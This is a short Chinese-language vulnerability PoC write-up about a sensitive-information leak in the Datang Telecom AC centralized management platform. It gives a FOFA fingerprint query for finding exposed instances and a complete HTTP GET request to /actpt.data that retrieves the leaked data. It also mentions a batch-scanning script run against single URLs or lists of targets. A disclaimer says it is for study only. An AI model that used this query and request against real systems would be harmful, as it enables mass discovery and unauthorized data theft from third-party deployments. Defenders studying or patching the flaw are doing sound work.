

# 大唐电信AC集中管理平台存在敏感信息泄漏漏洞

免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与作者无关。该文章仅供学习用途使用！！！

fofa语法

app="大唐电信AC集中管理平台" && fid="gmqJFLGz7L/7TdQxUJFBXQ=="

## 漏洞复现

POC:

**GET** /actpt.data HTTP/1.1

**Host:** 

**User-Agent:** Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36

**Accept:** text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Connection: Keep-Alive

Pragma: no-cache

Cache-Control: no-cache

Upgrade-Insecure-Requests: 1

**Accept-Encoding:** gzip, deflate

**Accept-Language:** zh-CN,zh;q=0.9

直接GET请求即可

批量poc(记得安装库)

python poc.py -u 

python poc.py -f  .txt

